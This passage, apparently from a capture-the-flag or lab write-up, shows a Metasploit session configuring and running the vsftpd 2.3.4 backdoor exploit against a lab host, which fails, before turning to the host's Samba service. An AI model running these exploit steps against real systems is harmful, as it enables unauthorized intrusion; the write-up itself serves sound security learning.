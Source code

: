 ```
   Id  Name
   --  ----
   0   Automatic



View the full module info with the info, or info -d command.

msf6 exploit(unix/ftp/vsftpd_234_backdoor) > set rhosts 10.10.10.3
rhosts => 10.10.10.3

msf6 exploit(unix/ftp/vsftpd_234_backdoor) > set payload cmd/unix/interact
payload => cmd/unix/interact

msf6 exploit(unix/ftp/vsftpd_234_backdoor) > options

Module options (exploit/unix/ftp/vsftpd_234_backdoor):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   CHOST                     no        The local client address
   CPORT                     no        The local client port
   Proxies                   no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS   10.10.10.3       yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT    21               yes       The target port (TCP)


Exploit target:

   Id  Name
   --  ----
   0   Automatic



View the full module info with the info, or info -d command.

msf6 exploit(unix/ftp/vsftpd_234_backdoor) > run

[*] 10.10.10.3:21 - Banner: 220 (vsFTPd 2.3.4)
[*] 10.10.10.3:21 - USER: 331 Please specify the password.
[*] Exploit completed, but no session was created.
```

Let's move on!

## Samba 🎶

Next we'll take a peek at the SMB server running on ports `139/tcp` and `445/tcp`
